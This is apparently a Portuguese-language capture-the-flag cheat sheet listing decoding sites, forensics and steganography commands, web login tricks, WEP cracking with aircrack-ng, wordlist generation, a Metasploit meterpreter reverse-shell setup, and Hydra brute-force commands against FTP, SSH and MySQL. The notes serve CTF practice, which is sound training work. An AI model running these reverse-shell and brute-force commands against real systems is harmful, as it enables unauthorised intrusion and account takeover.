 # CTFs**

##### CRYPTOGRAFIA:

$ cifra | base64 -d
$ cifra | base32 -d
$ 00000000: cifra | xxd -r -p
https://cryptii.com/
https://cryptii.com/pipes/hex-decoder
http://endoffile.umforum.net/h4-identifcador-hash - identificar uma hash
https://md5hashing.net/  - hash md5
https://hashtoolkit.com/
https://morsecode.scphillips.com/translator.html - morse
HASH MD5: https://hashkiller.co.uk/
QR-CODE: https://webqr.com/
https://www.dcode.fr/tools-list
    https://codebeautify.org/
https://upload.wikimedia.org/wikipedia/commons/thumb/9/9a/Vigen%C3%A8re_square_shading.svg/320px-Vigen%C3%A8re_square_shading.svg.png	

##### REVERSE ENGENNIRING:

ltrace para reverse
gdb program -> disas main

##### FORENSE:

https://incoherency.co.uk/image-steganography/ - imagem sobre posta
http://exif.regex.info/exif.cgi  - exif em fotos ou exif imagem
steghide extract -sf img.jpg
    foremost -i arquivo
    data-text-file contains "flag"->pcap foremost -d jpeg -i arquivo.pcap
https://futureboy.us/stegano/decinput.html
hexdump -C imagem.jpg
strings imagem.jpg
https://md5decrypt.net/en/  

##### WEB:

ERRO DE FLASH: http://www.showmycode.com/
/robots.txt
    /checklogin.php.bkp
    inspecionar elemento - copy url login=true - curl -X POST urlcomlogin=true -- insecure --data "username=flag&password=flag"
    while read pass;do echo $pass;curl -X POST urlcomlogin=true -- insecure --data "username=flag&password=flag" | grep shellter{;done < /usr/share/wordlists/

aircrack-ng arquivo.pcap - para pegar o macaddress
airdecap-ng -w macaddress arquivo.pcap - WEP key em hexadecimal
wireshark arquivor-dec.pcap
data-text-lines contains "post"
tcp stream

https://diegoandrade.com.br/ferramentas.html

##### SENHAS:

crunch [size min] [size max] caracteres
crunch 8 8 abcdefghijk1234567 -t(template) [% - digito][@ - caracter][nome fixo] -o(saida) dicionario.txt

METASPLOIT:
db_status
db_nmap
search falha
use /../payload
show options
set LHOST ipalvo
set LPORT porta
set payload /windows/meterpreter/reverse_tcp
show options
set LHOST ipinvasor
exploit
sessions -l
sessions -i [num]
?

##### HYDRA:

hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ftp
hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ssh
hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 mysql
hydra –l admin -P /tmp/wordlist.txt 192.168.0.101 ftp
